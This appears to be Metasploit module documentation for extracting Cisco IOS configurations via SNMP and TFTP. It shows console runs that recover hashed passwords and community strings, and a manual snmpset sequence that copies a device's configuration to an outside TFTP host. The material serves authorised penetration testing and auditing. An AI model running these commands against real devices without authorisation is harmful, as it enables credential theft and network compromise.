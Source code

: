 ## Vulnerable Application

  Cisco IOS devices can be configured to back-up their running and startup configurations via SNMP.
  This is a well [documented](https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup)
  feature of IOS and many other networking devices, and is part of an administrator functionality.
  A read-write community string is required, as well as a tftp server (metasploit includes one).
  After the config has been copied, the SNMP parameters are deleted.

## Verification Steps

  1. Enable SNMP with a read/write community string on IOS: `snmp-server community private rw`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/snmp/cisco_config_tftp```
  4. Do: ```set COMMUNITY [read-write snmp]```
  5. Do: ```set rhosts [ip]```
  6. Do: ```run```

## Options

  **COMMUNITY**

  The SNMP community string to use which must be read-write.  Default is `public`.

## Scenarios

### Cisco UC520-8U-4FXO-K9 running IOS 12.4

```
msf5 > setg rhosts 2.2.2.2
rhosts => 2.2.2.2
msf5 > use auxiliary/scanner/snmp/cisco_config_tftp
msf5 auxiliary(scanner/snmp/cisco_config_tftp) > set community private
community => private
msf5 auxiliary(scanner/snmp/cisco_config_tftp) > run

[*] Starting TFTP server...
[*] Scanning for vulnerable targets...
[*] Trying to acquire configuration from 2.2.2.2...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Providing some time for transfers to complete...
[*] Incoming file from 2.2.2.2 - 2.2.2.2.txt 22831 bytes
[+] 2.2.2.2:161 MD5 Encrypted Enable Password: $1$TF.y$3E7pZ2szVvQw5JG8SDjNa1
[+] 2.2.2.2:161 Username 'cisco' with MD5 Encrypted Password: $1$DaqN$iP32E5WcOOui/H66R63QB0
[+] 2.2.2.2:161 SNMP Community (RO): public
[+] 2.2.2.2:161 SNMP Community (RW): private
[*] Shutting down the TFTP service...
[*] Auxiliary module execution completed
```

### Manual Interaction
This process can also be executed manually utilizing Metasploit's TFTP server.
Cisco's [documentation](https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup)
was utilized to create this process.

1. Start the TFTP server

```
msf5 > use auxiliary/server/tftp 
msf5 auxiliary(server/tftp) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/tftp) > 
[*] Starting TFTP server on 0.0.0.0:69...
[*] Files will be served from /tmp
[*] Uploaded files will be saved in /tmp
```

2. Execute the SNMP commands.  An integer is required to group the requests together, `666` is used in this example.

```
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.2.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.2.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.2.666 = INTEGER: 1
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.3.666 i 4 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.3.666 i 4 

iso.3.6.1.4.1.9.9.96.1.1.1.1.3.666 = INTEGER: 4
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.4.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.4.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.4.666 = INTEGER: 1
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.5.666 a "1.1.1.1" 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.5.666 a "1.1.1.1" 

iso.3.6.1.4.1.9.9.96.1.1.1.1.5.666 = IpAddress: 1.1.1.1
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.6.666 s "backup_config" 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.6.666 s "backup_config" 

iso.3.6.1.4.1.9.9.96.1.1.1.1.6.666 = STRING: "backup_config"
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.14.666 = INTEGER: 1
```

3. At this point the config is transferring, we need to wait a few seconds.  Lastly, we'll remove `666` from the system.

```
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 6
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 6

iso.3.6.1.4.1.9.9.96.1.1.1.1.14.666 = INTEGER: 6
```

4. Confirm we have our config file

```
msf5 auxiliary(server/tftp) > ls -lah /tmp/backup_config
[*] exec: ls -lah /tmp/backup_config

-rw-r--r-- 1 root root 23K Oct 11 22:20 /tmp/backup_config
```

## Confirming using NMAP

Utilizing the [snmp-ios-config](https://nmap.org/nsedoc/scripts/snmp-ios-config.html) script

```
nmap -sU -p 161 --script snmp-ios-config --script-args creds.snmp=:private 192.168.2.239
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-11 22:30 EDT
Nmap scan report for 192.168.2.239
Host is up (0.0034s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-ios-config: 
| !
| ! Last configuration change at 18:01:46 PST Fri Jan 7 2000 by cisco
| ! NVRAM config last updated at 06:07:55 PST Tue Jan 4 2000 by cisco
| !
| version 12.4
| parser config cache interface
| no service pad
| service timestamps debug datetime msec
| service timestamps log datetime msec
| no service password-encryption
| service internal
| service compress-config
| service sequence-numbers
| !
| hostname UC520
...sip...
```
